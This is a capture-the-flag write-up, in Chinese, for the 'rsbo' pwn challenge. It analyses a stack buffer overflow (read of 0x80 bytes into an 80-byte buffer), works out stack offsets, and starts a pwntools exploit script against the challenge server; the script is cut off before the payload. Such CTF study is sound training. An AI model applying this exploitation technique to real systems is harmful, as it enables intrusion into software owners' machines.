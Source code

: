 #### 70 Pwn    rsbo

参考：

```
https://xz.aliyun.com/t/3703
```

write up：

```c
char buf[80]; // [esp+10h] [ebp-60h] BYREF
v7 = read_80_bytes(buf);
```

```c
ssize_t __cdecl read_80_bytes(void *buf)
{
  return read(0, buf, 0x80u);
}
```

`buf`的大小是`80=0x50`，但是`read`的长度是`0x80`,存在栈溢出的漏洞。

```c
int v5; // [esp+60h] [ebp-10h]
int v6; // [esp+64h] [ebp-Ch]
signed int v7; // [esp+68h] [ebp-8h]
for ( i = 0; i < v7; ++i )
  {
    v6 = rand() % (i + 1);
    v5 = buf[i];
    buf[i] = buf[v6];
    buf[v6] = v5;
  }
```

`for`循环交换第`i`个字符和`<=i`的某个字符的值。而`v5=*(int *)(buf+0x50)`，`v6=*(int *)(buf+0x54)`，`v7=*(signed int *)(buf+0x58)`，并且`v7<=0x80`，`v6<=0x80`。`buf`前`0x58`填充的值`<=0x58`，那么`for`循环到`0x58`的时候将退出，栈溢出部分将不会被破坏。

```
mov     ebp, esp
and     esp, 0FFFFFFF0h
sub     esp, 70h
```

通过调试发现`ebp=esp-0x70-8`，`buf=esp+0x10=ebp-0x68`，`ret_addr`的值放在栈`ebp+4=buf+0x6c`。

利用方法：

- 利用`open`，`read`，`write`函数把`/home/ctf/flag`中的flag打印出来
- 注意`fd = 0`时代表标准输入`stdin`，`1`时代表标准输出`stdout`，`2`时代表标准错误`stderr`，`3~9`则代表打开的文件，这里我们只打开了一个文件，那么`fd`就是`3`。
- `and     esp, 0FFFFFFF0h`，`esp`偏移在不同情况下不一样。使用`start`填充`ret_addr`时，偏移一致，使用`main`填充`ret_addr`需要进一步调试。可以通过穷尽找到。
- 发送的数据，可能会把两段数据拼凑在一起。发送数据长度为`0x80`时，或者间隔`sleep(0.5)`，更加稳定。

```python
from pwn import *

#context.log_level="debug"
#p = process("./rsbo")
p = remote("ctf.hackme.quest", 7706)

elf = ELF("./rsbo")
start = 0x08048490
open_plt = elf.symbols["open"]
read_plt = elf.symbols["read"]
write_plt = elf.symbols["write"]
bss = elf.bss()
offset = 0x6c
```